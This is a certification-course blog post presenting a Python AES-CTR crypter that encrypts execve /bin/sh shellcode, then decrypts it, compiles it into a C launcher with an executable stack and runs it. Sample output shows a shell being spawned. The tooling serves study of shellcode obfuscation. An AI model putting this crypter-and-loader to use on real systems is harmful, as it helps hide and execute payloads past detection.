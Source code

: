 # Assignment #7: Crypter

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-858


### Exercise
- Create a custom crypter like the one shown in the "crypters" video
- Free to use any existing encryption schema
- Can use any programming language


### Solution

To complete the last exercise I have used the [AES encryption algorithm](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard) with the block cipher mode CTR (Counter), one of the most recommended modes of encryption. This mode turns a block cipher into a stream cipher. It generates the next keystream block by encrypting successive values of a "counter".  To read more, go to [Wikipedia](https://en.wikipedia.org/wiki/Block_cipher_mode_of_operation#Counter_.28CTR.29)


So, as I am very comfortable programming in Python, I have used this language to make my crypter/decrypter.


I have used a module that implement AES in Python, the module is [pyaes](https://github.com/ricmoo/pyaes)

The installation of this module is very easy, and can be installed with pip.

```bash
$ pip install pyaes
```

I have created a command line program to generate the encrypted shellcode, and the same program using another arguments can be used to decrypt an encrypted shellcode.

```python
#!/usr/bin/env python

import struct
import sys
import pyaes		
import os

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

# encrypt or decrypt
method = sys.argv[1]

# A 256 bit (32 byte) key
key = sys.argv[2]

encrypted_shellcode = ""
if method == 'decrypt':
	encrypted_shellcode = sys.argv[3]

if len(key) != 16 and len(key) != 32:
	print "[-] Error: Invalid key length"
	sys.exit(0)


counter = pyaes.Counter(initial_value = 100)
aes = pyaes.AESModeOfOperationCTR(key, counter = counter)


if (method == "encrypt"):
	encrypted_shellcode = aes.encrypt(shellcode)
	eShellcode = ""
	for x in bytearray(encrypted_shellcode) :
        	eShellcode += '\\x'
	        eShellcode += '%02x' % x
	print "[+] Encrypted shellcode: %s"%(eShellcode)
elif (method == "decrypt"):
	shellcode = aes.decrypt(encrypted_shellcode.decode("hex"))
        eShellcode = ""
        for x in bytearray(shellcode) :
                eShellcode += '\\x'
                eShellcode += '%02x' % x
	print "[*] Decrypted shellcode: %s"%eShellcode
	c_code = '''
#include<stdio.h>									 
#include<string.h>									
											
unsigned char code[] =  \"%s\"; 							
											
int main() {										
	printf(\"Shellcode Length:  %%d\", strlen(code));				
	int (*ret)() = (int(*)())code;							
	ret();										
}											
'''%eShellcode
	f = open("shellcode.c","w")
	f.write(c_code)
	f.close()
	print "[*] Compiling shellcode.c\n%s"%c_code
	os.system("gcc -fno-stack-protector -z execstack shellcode.c -o shellcode")
	print "[+] Launching shellcode..."
	os.system("./shellcode")
		
```

The sintax to use the program:

To encrypt:

```bash
$ ./aes-ctr.py encrypt <16/32 bytes hex password>
```

To decrypt:

```bash
$ ./aes-ctr.py decrypr <16/32 bytes hex password> <encrypted shellcode>
```


Example of usage:

```bash
$ ./aes-ctr.py encrypt 0123456789abcdef0123456789abcdef
[+] Encrypted shellcode: \xd3\xa0\xf8\xd2\xfa\xbf\x28\xfc\x6b\x0c\x0b\xc2\xee\x4c\x01\xd9\x69\xb8\xcd\x96\xb2\x28\x18\x5b\xb3
$ ./aes-ctr.py decrypt 0123456789abcdef0123456789abcdef d3a0f8d2fabf28fc6b0c0bc2ee4c01d969b8cd96b228185bb3
[*] Decrypted shellcode: \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
[*] Compiling shellcode.c

#include<stdio.h>									 
#include<string.h>									
											
unsigned char code[] =  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"; 							
											
int main() {										
	printf("Shellcode Length:  %d", strlen(code));				
	int (*ret)() = (int(*)())code;							
	ret();										
}											

[+] Launching shellcode...
$ id
uid=1000(hiro) gid=1000(hiro) groups=1000(hiro),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner)
$ 
```

